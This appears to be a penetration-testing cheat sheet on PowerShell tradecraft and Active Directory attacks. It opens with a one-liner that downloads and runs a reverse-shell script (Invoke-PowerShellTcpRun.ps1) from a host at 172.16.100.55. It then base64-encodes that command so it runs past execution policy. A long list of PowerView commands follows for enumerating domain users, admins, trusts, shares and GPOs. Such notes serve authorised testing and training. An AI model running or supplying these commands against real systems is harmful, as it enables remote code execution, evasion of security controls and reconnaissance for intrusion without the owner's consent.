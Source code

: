 #### Encode command

Encode one-liner:

```
$command = 'IEX (New-Object Net.WebClient).DownloadString("http://172.16.100.55/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes) 
```

Encode existing script, copy to clipboard:

```
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes('c:\path\to\PowerView.ps1')) | clip 
```

Run it, bypassing execution policy.

```
Powershell -EncodedCommand $encodedCommand 
```

> If you have Nishang handy, you can use [Invoke-Encode.ps1](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Encode.ps1).

Enumeration
-----------

### AD Enumeration With PowerView

```
# Get all users in the current domain
Get-NetUser | select -ExpandProperty cn

# Get all computers in the current domain
Get-NetComputer

# Get all domains in current forest
Get-NetForestDomain

# Get domain/forest trusts
Get-NetDomainTrust
Get-NetForestTrust

# Get information for the DA group
Get-NetGroup -GroupName "Domain Admins"

# Find members of the DA group
Get-NetGroupMember -GroupName "Domain Admins" | select -ExpandProperty membername

# Find interesting shares in the domain, ignore default shares
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC

# Get OUs for current domain
Get-NetOU -FullData

# Get computers in an OU
# %{} is a looping statement
Get-NetOU -OUName StudentMachines | %{Get-NetComputer -ADSPath $_}

# Get GPOs applied to a specific OU
Get-NetOU *student* | select gplink
Get-NetGPO -Name "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}"

# Get Restricted Groups set via GPOs, look for interesting group memberships forced via domain
Get-NetGPOGroup
```